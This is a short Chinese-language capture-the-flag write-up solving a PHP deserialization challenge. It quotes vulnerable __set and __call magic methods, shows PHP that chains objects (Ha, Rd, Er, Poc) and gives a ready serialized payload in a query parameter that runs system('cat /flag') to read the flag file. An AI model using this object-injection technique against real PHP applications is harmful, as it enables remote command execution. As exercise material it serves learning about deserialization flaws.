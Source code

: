 代码审计后发现：

1. 类似可以执行代码中的格式

```php
    public function __set($name, $value)
    {
        $value($this->Flag);
    }
```

`$value`中可以利用`__set`使其值等于`system`

`$Flag` == `'cat /flag'` 

构造：==system('cat /flag')==



2. 发现Rd（）中`__call`方法

 ```php
  public function __call($name, $arg)
     {
         foreach ($arg as $key =>$value)
         {
 
             if($arg[0]['POC']=="1111")
             {
                 echo "1";
                 $this->cl->var1 = "system";
             }
         }
     }
 ```

发现其中需要满足条件：`if($arg[0]['POC']=="1111")`

3. 在利用Poc（）中的变量实现覆盖绕过

```php
$a->start2 = "11111";
$a->start1 = new Rd();
$p = new Poc();
$p->payload = ['POC'=>'1111'];
$a->start = $p->payload;
$a->start1->cl = new Er();

echo serialize($a);

//?Ha_rde_r=O:2:"Ha":3:{s:5:"start";a:1:{s:3:"POC";s:4:"1111";}s:6:"start1";O:2:"Rd":3:{s:6:"ending";N;s:2:"cl";O:2:"Er":2:{s:6:"symbol";N;s:4:"Flag";s:9:"cat /flag";}s:3:"poc";N;}s:6:"start2";s:5:"11111";}
```

最后得到flag

*FLAG：

